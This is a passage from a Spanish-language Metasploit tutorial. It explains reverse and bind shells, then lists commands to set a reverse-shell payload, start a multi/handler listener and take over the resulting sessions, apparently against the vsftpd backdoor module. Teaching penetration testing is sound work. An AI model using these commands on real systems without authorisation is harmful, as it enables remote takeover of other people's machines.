 
✅ Ejemplos:

✔ reverse shell: la víctima se conecta a ti

✔ bind shell: tú te conectas a la víctima

✔ meterpreter: shell avanzada

---

✅ En el módulo vsftpd, ya está configurado el payload automáticamente.

✔ Pero en otros exploits puedes cambiarlo:

```bash
set PAYLOAD linux/x86/shell_reverse_tcp
```

---

### ✅ 9️⃣ ¿Cómo recibir la conexión? (Listener)

✅ Cuando lanzas el exploit con reverse shell:

✔ Metasploit abre automáticamente el listener.

✔ Espera la conexión de la víctima.

✔ Cuando conecta → abre sesión.

---

✅ O puedes hacerlo manual:

```bash
use exploit/multi/handler
set PAYLOAD linux/x86/shell_reverse_tcp
set LHOST tu_IP
set LPORT tu_puerto
run
```

---

### ✅ 10️ Ver sesiones abiertas

✅ Después de un exploit exitoso:

```bash
sessions
```

✅ Ver resultado:

```
[*] 1  shell  192.168.1.10  6200  Command shell
```

✅ Conectar:

```bash
sessions -i 1
```

---